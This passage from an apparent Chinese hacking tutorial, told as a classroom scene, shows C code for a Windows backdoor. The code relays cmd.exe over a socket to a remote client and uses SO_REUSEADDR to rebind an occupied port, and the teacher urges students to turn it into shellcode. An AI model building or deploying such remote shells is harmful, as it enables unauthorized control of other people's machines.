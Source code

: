 ```
    解释一下，这段代码创建了一个 cmd.exe，把 cmd.exe 的标准输出和标准错误输出用第一个管道的写句柄替换；cmd.exe 的标准输入用第二个管道的读句柄替换。如下：
     远程主机←入←管道 1 输出←管道 1 输入←输出(cmd.exe 子进程) 
     远程主机→输出→管道 2 输入→管道 2 输出→输入(cmd.exe 子进程) 
    */
    unsigned long lBytesRead;
    while(1)
    {
        //检查管道 1，即 CMD 进程是否有输出
        ret=PeekNamedPipe(hReadPipe1,Buff,1024,&lBytesRead,0,0);
        if(lBytesRead)
        {
            //管道 1 有输出，读出结果发给远程客户机
            ret=ReadFile(hReadPipe1,Buff,lBytesRead,&lBytesRead,0);
            if(!ret) break;
            ret=send(clientFD,Buff,lBytesRead,0);
            if(ret<=0) break;
        }
        else
        {
            //否则，接收远程客户机的命令
            lBytesRead=recv(clientFD,Buff,1024,0);
            if(lBytesRead<=0) break;
            //将命令写入管道 2，即传给 CMD 进程
            ret=WriteFile(hWritePipe2,Buff,lBytesRead,&lBytesRead,0);
            if(!ret) break;
        }
    }
    WSACleanup(); 
    return 0; 
} 
```

“其实，关键就是下面这句：”

```
Setsockopt(ss, SOL_SOCKET, SO_REUSEADDR, (char *)&val, sizeof(val)) != 0 
```

“它把套接字‘ss’设为重用，这样就可重新绑定端口了。”

古风说道，“听起来很有意思和用处也！”

“嗯，这门课只懂得原理是远远不够的，实践才是关键。大家下去也亲自测试一下，并考虑提取成 ShellCode。”

“好哩！用汇编和 C 语言直接提取都没问题。”古风摩拳擦掌。

“下次课我们会继续深入讲解漏洞的发现和分析！”

“那些更是我们想知道的东东！好啊！”同学们都欢呼起来。

“今天的课就讲到这里。天气有点冷，大家多注意身体。放学！”

# 课后解惑
